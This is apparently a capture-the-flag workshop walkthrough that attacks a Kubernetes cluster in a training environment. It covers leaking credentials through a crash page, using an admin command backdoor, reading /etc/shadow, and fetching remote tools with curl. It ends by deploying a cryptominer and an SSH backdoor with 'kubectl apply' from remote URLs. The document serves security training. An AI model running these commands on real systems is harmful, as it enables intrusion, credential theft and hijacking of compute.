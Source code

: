 # Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value
* __Red__ is looking for free-to-them compute on which to run miners
* __Red__ purchased some leaked credentials from the dark web

## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Access

__Red__ team found an app online and ran a [dictionary attack](https://www.techtarget.com/searchsecurity/definition/dictionary-attack) against it.  Some valid paths were `/crash` and `/admin`.  Let's try to find an exploit!

To find the compromised website, run the following:
```
./scenario_1/attack-1-helper.sh
```

In your browser, go to URL provided (e.g. `http://<IP>:8080/`)

Hmm.  "Nothing to see here."?  They're probably wrong.

Let's try the Admin page: `http://<IP>:8080/admin`.  Hrm.  It's asking for credentials.  Since it was a browser popup (instead of an in-app request), it probably uses [Basic Auth](https://en.wikipedia.org/wiki/Basic_access_authentication).

Let's try the Crash page: `http://<IP>:8080/crash`

Looks like we've crashed the app!  And it prints out all of the environment variables.  Oh goodie.  There's two that seem to be especially interesting (AUTH_USERNAME and AUTH_PASSWORD).  Let's go back to the Admin page and try those.

Go back to the Admin page: `http://<IP>:8080/admin` and enter the credentials we just got.  

And we're in!  Looks like Frank left a backdoor to run some commands.  Let's see what we can learn:

```console
id
```

```console
uname -a
```

```console
cat /etc/lsb-release
```

```console
ps -ef
```

```console
df -h
```

Note that there are very few processes running. This is probably a container.

```console
cat /etc/shadow
```
```console
ls -l /
```
```console
ls -l $PWD
```
```console
echo $PATH
```

Can we add files to the default PATH?
```console
touch /usr/local/bin/foo && ls /usr/local/bin/
```

Let's follow-up on that idea that it's maybe a container and verify with [amicontained](https://github.com/genuinetools/amicontained):

```console
cd /usr/local/bin; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's probably managed by Kubernetes
* Some security features are not in use (userns)
* Seccomp is disabled, but a number of Syscalls are blocked
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

# Deploy Bitcoin miner + backdoor

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.28.10/bin/linux/amd64/kubectl; chmod 555 kubectl
```
```console
kubectl get all
```
What workloads are deployed in all of the namespaces?
```console
kubectl get all -A
```
What operations can I run on this cluster?
```console
kubectl auth can-i --list
```
Can I create pods?
```console
kubectl auth can-i create pods
```

It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
```console
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml; sleep 10; kubectl get pods
```

We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

```console
kubectl apply -n kube-system -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/backdoor.yaml
```

Wait ~10 seconds for the Public IP to be exposed
```console
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
```

Our Bitcoin miner is now deployed and we've also deployed an SSH backdoor.  Mission Accomplished.

